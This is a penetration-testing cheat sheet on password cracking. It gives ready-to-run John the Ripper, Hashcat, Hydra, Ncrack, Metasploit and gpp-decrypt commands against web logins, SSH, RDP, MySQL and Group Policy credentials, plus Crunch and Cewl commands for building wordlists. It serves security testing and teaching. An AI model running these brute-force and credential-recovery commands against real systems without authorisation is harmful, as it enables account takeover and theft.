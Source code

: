 # Password cracking

Passwords can be brute-forced \(e.g. just iterating through different letter/number combinations\) but it is probably more efficient to use a dictionary. In Kali, wordlists can be found in `/usr/share/wordlists`. Both `fasttrack` and `rockyou` are good for testing weak passwords. Many applications and services are installed with [default passwords](http://www.defaultpassword.com/), so always check for those before attempting to crack them.

## Identifying hashes

Passwords will often be hashed in databases, sometimes with a salt. If the database/application includes a salt with the password, you'll need to some research to figure out how it is used in the hashed password. For example, it might be concatenated with the password \(salt + password, password + salt\) before hashing, or it may be hashed multiple times.

Identifying hashes using hash-identifer:

```text
hash-identifier
```

## John the Ripper

John is useful for offline password cracking, with a hash stored in a text file.

Usage:

```text
john --wordlist=/usr/share/wordlists/rockyou.txt -format=Raw-MD5 /root/Desktop/john.txt
```

The `format` option is not always necessary as john does a decent job of guessing. Here's a [list of supported formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats).

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh. The options can be tricky, so you can use [Burp Intruder](https://support.portswigger.net/customer/portal/articles/1964020-using-burp-to-brute-force-a-login-page) as an alternative for websites. However, it seems to have trouble loading large wordlists such as rockyou.

### Websites

Hydra is useful for brute-forcing website login pages, but you'll need to [pass it the HTTP request string using Burp's proxy](https://www.hackers-arise.com/single-post/2018/02/26/Online-Password-Cracking-with-THC-Hydra-and-Burp-Suite) and parameters for success or failure.

General format for website attacks:

```text
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

Attack [DVWA](http://www.dvwa.co.uk/) login page:

```text
hydra -L <wordlist> -P <password list> [host] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

Attack WordPress login page with a known username, success parameter `S=` instead of failure parameter, verbose output:

```text
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

#### JSON and APIs

It's a pain in the ass, but you can submit API responses and read them using Hydra. You just have to escape every `"` and `:` in the JSON messages:

```text
hydra -l [username] -P /usr/share/wordlists/fasttrack.txt [host] https-form-post "/api/account/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=userInfo" -V
```

Because of issues like throttling and API lockouts, you may want to use Burp Intruder instead, because it lets you read different server responses.

### SSH

General usage:

```text
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a non-standard port \(22022\):

```text
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a username wordlist, non-standard port, limited threads and verbose output:

```text
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
```

## Hashcat

Hashcat is a very fast password-cracking tool, with [many supported formats](https://hashcat.net/wiki/doku.php?id=example_hashes).

General usage:

```text
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

* `m` is the hash format \(e.g. m 13100 is Kerberos 5\)
* `a 0` is a dictionary attack
* `o cracked.txt` is the output file for the cracked password
* `target_hashes.txt` is the hash to be cracked
* `/usr/share/wordlists/rockyou.txt` is the absolute path to the wordlist
* `--force` is something I always have to add \(think it's GPU-related\)

## Ncrack

Ncrack can be used to crack RDP passwords:

```text
ncrack -vv --user username -P password-file.txt rdp://[host]
```

## GPP-decrypt

Group Policy Preferences \(GPP\) has been used in the past to allow Windows administrators to create domain policies with embedded credentials. These policies allowed administrators to set local accounts, embed credentials for the purposes of mapping drives, or perform other tasks that may otherwise require an embedded password in a script.

Unfortunately, the password that is stored in the policy is [encrypted with a known key](https://msdn.microsoft.com/en-us/library/cc422924.aspx), meaning anyone who can access the GPP [can obtain the plain text password](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/). Since GPPs are stored on the domain controller in the SYSVOL share, this means that at a minimum all domain users can access the encrypted credentials.

Once you find and download the groups.xml file, extract the contents of `cpassword` and use gpp-decrypt:

```text
gpp-decrypt [hash]
```

## MySQL brute force

With Metasploit:

```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set rhosts [target]
msf auxiliary(mysql_login) > set rport [port]
msf auxiliary(mysql_login) > set user_file /root/Desktop/users.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/password.txt
msf auxiliary(mysql_login) > run
```

## Custom wordlists

Custom wordlists are useful when targeting a specific organization or individual, to generate more relevant password lists.

### Crunch

Crunch generates a custom password lists that can be used to guess passwords. These include:

* All combinations for a number of letters.
* All combinations for a range of characters followed by static text.
* Password lists based on default password ranges \(default router passwords for example\).

General usage:

```text
crunch [min length] [max length] [charset] [options]
```

Generates a password list with all possible combinations of 4 capital letters:

```text
crunch 4 4 ABCDEFGHIJKLMNOPQRSTUVWXYZ -o /root/Desktop/wordlist.txt
```

Generate a list with all combinations for 5 digits:

```text
crunch 5 5 0123456789 -o /root/Desktop/wordlist.txt
```

Generate a wordlist that contains all possible combinations with four letters followed by 1980:

```text
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ -t @@@@1980 -o /root/Desktop/wordlist.txt
```

Use the -p option defining the charset which eliminates repeating characters or words. This is creates a wordlist using different combinations of specific words.

Generate all combinations of the words ‘Dog Cat Mouse’:

```text
crunch 1 2 -p Dog Cat Mouse -o /root/Desktop/wordlist.txt
```

### Cewl

Cewl scrapes websites for text to generate a custom password list.

Options:

* `-m` is the minimum word length for words to save to the wordlist.
* `-d` is the maximum depth the spider is allowed to scrape.
* `-o` is offsite, used to allow the spider to leave the current website to another website.
* `-w` is write to output file, specify the output file here.

Example: use Cewl on the Kali Linux website to find words with 8 letters or greater and go 1 level deep:

```text
cewl -d 1 -m 8 -w /root/Desktop/cewl.txt https://www.kali.org
```

